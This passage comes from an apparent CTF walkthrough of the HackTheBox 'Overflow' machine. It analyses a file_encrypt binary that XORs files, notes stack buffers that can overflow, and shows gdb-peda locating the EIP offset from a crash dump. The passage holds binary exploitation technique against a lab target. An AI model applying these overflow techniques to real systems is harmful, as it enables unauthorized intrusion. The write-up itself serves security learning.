         }
      }
      return;
    }
    

This is also dead simple. It:

  * prompts for input and output file names;
  * gets metadata on the file;
  * if the file is owned by root, print error and exit;
  * otherwise read input file one byte at a time, XOR with 0x9b, and write it to the output.

It’s worth noting that the two file names are read into 20-byte buffers on the
stack, ordered like:

![image-20210930083358132](https://0xdfimages.gitlab.io/img/image-20210930083358132.png)

`user_infile` is readinfile is read, and then `user_outfile`. If
`user_outfile` is longer than 20 characters (including a terminating null), it
will overwrite into the start of `user_infile`. Then `stat` is called on
`user_infile`. The result would overwrite the end of `user_infile` if it is
longer than 20 bytes. There are some tricks I could play here, but if I want
to use the legit functionality, I need to keep both paths under 20 bytes.

### Return to Encrypt

#### EIP Offset

I need to know how far into the `name` buffer is the return address. I can use
`pattern_create` from within [Peda](https://github.com/longld/peda) in `gdb`,
and give that as my name:

    
    
    gdb-peda$ pattern_create 50
    'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
    gdb-peda$ r
    Starting program: /media/sf_CTFs/hackthebox/overflow-10.10.11.119/file_encrypt 
    This is the code 1804289383. Enter the Pin: -202976456
    name: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA
    Thanks for checking. You can give your feedback for improvements at developer@overflow.htb
    

Then it crashes at a seg fault:

    
    
    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    EAX: 0x5b ('[')
    EBX: 0x61414145 ('EAAa')
    ECX: 0xffffffff 
    EDX: 0xffffffff 
    ESI: 0xf7fa7000 --> 0x1e4d6c 
    EDI: 0xf7fa7000 --> 0x1e4d6c 
    EBP: 0x41304141 ('AA0A')
    ESP: 0xffffceb0 --> 0xf7004162 
    EIP: 0x41414641 ('AFAA')
    EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x41414641
    [------------------------------------stack-------------------------------------]
    0000| 0xffffceb0 --> 0xf7004162 
    0004| 0xffffceb4 --> 0xffffced0 --> 0x1 
    0008| 0xffffceb8 --> 0x0 
    0012| 0xffffcebc --> 0xf7de0e46 (<__libc_start_main+262>:       add    esp,0x10)
    0016| 0xffffcec0 --> 0xf7fa7000 --> 0x1e4d6c 
    0020| 0xffffcec4 --> 0xf7fa7000 --> 0x1e4d6c 
